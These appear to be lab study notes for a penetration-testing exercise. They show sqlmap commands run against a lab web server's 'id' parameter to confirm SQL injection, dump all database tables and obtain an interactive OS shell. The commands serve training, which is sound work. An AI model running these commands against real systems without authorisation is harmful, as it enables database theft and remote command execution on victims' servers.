

9.4.5.13

# 9.4.5.13
## 9.4.5.13.1. Use sqlmap to obtain a full dump of the database.

Run sqlmap to test the id parameter. It confirms there is an injection point using parameter 'id' and 4 payloads to do so. It also outputs the back-end is MariaDB
```plaintext
kali@kali:~$ sqlmap -u http://192.168.214.10/debug.php?id=1 -p "id"
```


Dump the contents of all tables in the database. We see that it dumped a CSV file in /home/kali/.sqlmap/output/192.168.214.10/dump/webappdb/users.csv
```plaintext
kali@kali:~$ sqlmap -u http://192.168.214.10/debug.php?id=1 -p "id" --dbms=mysql --dump
```


## 9.4.5.13.2. Use sqlmap to obtain an interactive shell.

Try the --os-shell method to upload and execute a remote command shell on the Windows machine. We see that we can run commands such as whoami, ipconfig, and dir
```plaintext
kali@kali:~$ sqlmap -u http://192.168.214.10/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```



